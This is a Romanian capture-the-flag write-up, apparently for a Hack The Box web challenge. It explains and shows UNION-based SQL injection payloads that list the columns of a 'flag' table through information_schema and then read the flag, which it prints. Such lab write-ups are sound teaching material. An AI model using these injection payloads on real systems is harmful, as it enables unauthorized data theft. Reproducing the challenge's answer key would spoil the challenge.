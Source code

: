 Sarcina:
```
On the outskirts of a forsaken town lies an abandoned warehouse, rumored to store more than just forgotten relics.
Locals speak of an unholy union within its database, where spectral data intertwines with the realm of the living.
Whispers tell of a cursed ledger that merges forbidden entries through mysterious queries. Some say that the warehouse's inventory system responds to those who know how to merge the right requests.
Can you brave the haunted inventory system and unravel the ghostly union of data before the spirits corrupt the world beyond?
```

Atunci când acesam pagina avem urmatoare informație:

![alt text](../image/UU_1.png)

Este clar că avem o vulnerabilitate de tipul `SQLi`. Să testam
```
' UNION SELECT 1, 2, 3, GROUP_CONCAT(column_name), NULL FROM information_schema.columns WHERE table_name = 'flag' -- '
```
UNION este folosit pentru a combina rezultatele din două interogări SQL diferite. În cazul tău, prima parte a interogării provine dintr-un query standard care caută în tabelul inventory ceva în coloana name. După ce ai închis acel query folosind un apostrof ('), injectezi o nouă interogare cu UNION pentru a adăuga rezultatul tău personalizat.
Acum, partea cu SELECT 1, 2, 3, GROUP_CONCAT(column_name), NULL este interogarea pe care o adaugi. Valorile 1, 2, 3 sunt doar de umplutură pentru a se potrivi cu structura tabelului original din inventory, care are 5 coloane. Folosești GROUP_CONCAT(column_name) pentru a concatena numele coloanelor din tabelul flag, astfel încât să afli cum se numesc coloanele din acel tabel. Valoarea NULL este folosită ca să se potrivească cu ultima coloană din tabelul inventory, adică created_at.
Partea FROM information_schema.columns specifică faptul că această interogare vrea să extragă informații despre coloane, și acest lucru se face dintr-un tabel special de sistem numit information_schema.columns. Acest tabel păstrează detalii despre structura tuturor tabelelor din baza de date. Condiția WHERE table_name = 'flag' asigură că te uiți doar la coloanele din tabelul flag.

Avem acest răspunsul dat:
```
  {
    "id": 1,
    "name": "2",
    "description": "3",
    "origin": "flag",
    "created_at": null
  }
```
Acum trebuie să citim flagul:
```
SELECT * FROM inventory WHERE name LIKE '%'  UNION  SELECT 1, 2, 3, flag, NULL  FROM flag -- '%'
```
Ne va returna flagul: `HTB{uN10n_1nj3ct10n_4r3_345y_t0_l34rn_r1gh17?_41bdcda979a5f337d54412d4d6df6909}`